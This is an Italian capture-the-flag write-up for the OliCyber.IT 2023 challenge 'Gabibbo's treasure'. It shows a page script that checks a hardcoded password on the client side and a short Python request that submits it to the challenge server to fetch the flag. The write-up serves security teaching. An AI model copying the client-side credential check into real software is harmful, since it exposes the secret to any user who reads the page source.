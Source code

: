 # OliCyber.IT 2023 - Selezione territoriale

## [web-1] Gabibbo's treasure (550 risoluzioni)

La challenge implementa un semplice controllo delle credenziali client-side

### Soluzione

Analizzando il sorgente della pagina visitata trovaiamo lo script JavaScript che viene eseguito al click del pulsante.

```js
const password = document.getElementById("password").value;
if (password !== "Belandi, dammi la flag!") {
  document.getElementById("result").innerText = "Password errata";
} else {
  flag = await (
    await fetch("/flag?password=" + encodeURIComponent(password))
  ).text();
  document.getElementById("result").innerText = flag;
}
```

Da qui possiamo ottenere la password `Belandi, dammi la flag!` che ci permetterà di ricevere la flag.

### Exploit

```python
import requests

r = requests.get('http://treasure.challs.olicyber.it/flag?password=Belandi%2C%20dammi%20la%20flag!')
print(r.text)
```
